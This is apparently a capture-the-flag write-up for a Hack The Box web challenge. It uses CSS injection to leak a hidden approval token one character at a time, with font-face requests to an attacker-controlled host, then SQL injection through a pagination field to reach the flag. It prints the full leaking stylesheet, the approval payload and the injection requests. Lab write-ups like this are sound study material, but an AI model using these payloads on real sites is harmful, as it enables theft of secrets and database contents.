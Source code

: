 # Challenge: Stylish
## Rate: Medium

Analyzing the source code:

```jsx
app.use(function(req, res, next) {
	res.setHeader("Content-Security-Policy", "default-src 'self'; object-src 'none'; img-src 'self'; style-src 'self'; font-src 'self' *;")
    next();
});
```

`font-src 'self' *;`: Allowing fonts from any origin (`'*'`) increases the risk of CSS-based attacks if an attacker can control the source of the fonts. Malicious fonts could be used to execute CSS-based attacks.

CSS Injection:

```css
@font-face {
  font-family: poc;
  src: url('https://q90u490hv2bsho9zv9uzkwczyq4hs7gw.oastify.com/?data');
}

body:has(p[id="approvalToken"]) {
  font-family: poc;
}
```

Since `<p id="approvalToken" class="d-none">{{ approvalToken }}</p>` has a `d-none` class, the bot cannot see the Token. So we should get rid of it by using `display: block !important;`

<details>
  <summary>
    Exfiltrate the `approvalToken` via CSS Injection:
  </summary>
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?a);
        unicode-range: U+0061; /* Character 'a' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?b);
        unicode-range: U+0062; /* Character 'b' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?c);
        unicode-range: U+0063; /* Character 'c' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?d);
        unicode-range: U+0064; /* Character 'd' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?e);
        unicode-range: U+0065; /* Character 'e' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?f);
        unicode-range: U+0066; /* Character 'f' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?g);
        unicode-range: U+0067; /* Character 'g' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?h);
        unicode-range: U+0068; /* Character 'h' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?i);
        unicode-range: U+0069; /* Character 'i' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?j);
        unicode-range: U+006A; /* Character 'j' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?k);
        unicode-range: U+006B; /* Character 'k' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?l);
        unicode-range: U+006C; /* Character 'l' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?m);
        unicode-range: U+006D; /* Character 'm' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?n);
        unicode-range: U+006E; /* Character 'n' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?o);
        unicode-range: U+006F; /* Character 'o' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?p);
        unicode-range: U+0070; /* Character 'p' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?q);
        unicode-range: U+0071; /* Character 'q' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?r);
        unicode-range: U+0072; /* Character 'r' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?s);
        unicode-range: U+0073; /* Character 's' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?t);
        unicode-range: U+0074; /* Character 't' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?u);
        unicode-range: U+0075; /* Character 'u' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?v);
        unicode-range: U+0076; /* Character 'v' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?w);
        unicode-range: U+0077; /* Character 'w' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?x);
        unicode-range: U+0078; /* Character 'x' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?y);
        unicode-range: U+0079; /* Character 'y' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?z);
        unicode-range: U+007A; /* Character 'z' */
    }
    
    /* Uppercase Letters (A to Z) */
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?A);
        unicode-range: U+0041; /* Character 'A' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?B);
        unicode-range: U+0042; /* Character 'B' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?C);
        unicode-range: U+0043; /* Character 'C' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?D);
        unicode-range: U+0044; /* Character 'D' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?E);
        unicode-range: U+0045; /* Character 'E' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?F);
        unicode-range: U+0046; /* Character 'F' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?G);
        unicode-range: U+0047; /* Character 'G' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?H);
        unicode-range: U+0048; /* Character 'H' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?I);
        unicode-range: U+0049; /* Character 'I' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?J);
        unicode-range: U+004A; /* Character 'J' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?K);
        unicode-range: U+004B; /* Character 'K' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?L);
        unicode-range: U+004C; /* Character 'L' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?M);
        unicode-range: U+004D; /* Character 'M' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?N);
        unicode-range: U+004E; /* Character 'N' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?O);
        unicode-range: U+004F; /* Character 'O' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?P);
        unicode-range: U+0050; /* Character 'P' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?Q);
        unicode-range: U+0051; /* Character 'Q' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?R);
        unicode-range: U+0052; /* Character 'R' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?S);
        unicode-range: U+0053; /* Character 'S' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?T);
        unicode-range: U+0054; /* Character 'T' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?U);
        unicode-range: U+0055; /* Character 'U' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?V);
        unicode-range: U+0056; /* Character 'V' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?W);
        unicode-range: U+0057; /* Character 'W' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?X);
        unicode-range: U+0058; /* Character 'X' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?Y);
        unicode-range: U+0059; /* Character 'Y' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?Z);
        unicode-range: U+005A; /* Character 'Z' */
    }
    
    /* Numbers (0 to 9) */
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?0);
        unicode-range: U+0030; /* Character '0' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?1);
        unicode-range: U+0031; /* Character '1' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?2);
        unicode-range: U+0032; /* Character '2' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?3);
        unicode-range: U+0033; /* Character '3' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?4);
        unicode-range: U+0034; /* Character '4' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?5);
        unicode-range: U+0035; /* Character '5' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?6);
        unicode-range: U+0036; /* Character '6' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?7);
        unicode-range: U+0037; /* Character '7' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?8);
        unicode-range: U+0038; /* Character '8' */
    }
    
    @font-face {
        font-family: poc;
        src: url(http://your_server_ip/?9);
        unicode-range: U+0039; /* Character '9' */
    }
    
    .d-none {
        display: block !important;
    }
    #approvalToken{
        font-family: poc;
    }
</details>

Now we have achieved the token characters are not sorted.

- `TokenHelper.js`
    
    ```jsx
    generateToken() {
      const dict = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
      const shuffle = v=>[...v].sort(_=>Math.random()-.5).join('');
    
      // Shuffle characters and sort them in ASCII order
      return shuffle(dict).substring(0, 32).split('').sort().join('');
    }
    ```
    

Token pattern: `<Sorted_Numbers><Sorted_Uppercase_Letters><Sorted_Lowercase_Letters>`

CSS Injection for approving the post:

```css
@font-face {
  font-family: poc;
  src: url('http://localhost:1337/approve/1/2368BCEFGHLNOPRSTVYdeklmoqstuwyz');
}

body:has(p[id="approvalToken"]) {
  font-family: poc;
}
```

Submit a comment:

```
POST /api/comment/submit HTTP/1.1
Host: challengeIP:PORT
Content-Length: 43
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://challengeIP:PORT
Referer: http://challengeIP:PORT/
Connection: close

{"submissionID":1,"commentContent": "test"}
```

SQLI vulnerability in source code:

- `comment.js`
    
    ```jsx
    //...
    
    	fetch('/api/comment/entries', {
    		method: 'POST',
    		headers: {
    			'Content-Type': 'application/json',
    		},
    		body: JSON.stringify({submissionID: submissionID, pagination: pagination}),
    	})
    	
    //...
    ```
    
- `database.js`
    
    ```jsx
    //...
    
    async getSubmissionComments(submissionID, pagination=10) {
    	return new Promise(async (resolve, reject) => {
    		try {
                  const stmt = `SELECT content FROM comments WHERE id_submission = ${submissionID} LIMIT ${pagination}`;
                  resolve(await this.db.all(stmt));
    		} catch(e) {
    			reject(e);
    		}
    	});
    }
    
    //...
    ```
    

SQLI via `pagination` parameter:

```
POST /api/comment/entries HTTP/1.1
Host: challengeIP:PORT
Content-Length: 45
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://challengeIP:PORT
Referer: http://challengeIP:PORT/
Connection: close

{"submissionID":1,"pagination": "10*"}
```

We can use SQLMap to achieve the flag:

Flag: `HTB{Th1s_1s_n0t_th3_r34l_fl4g}`
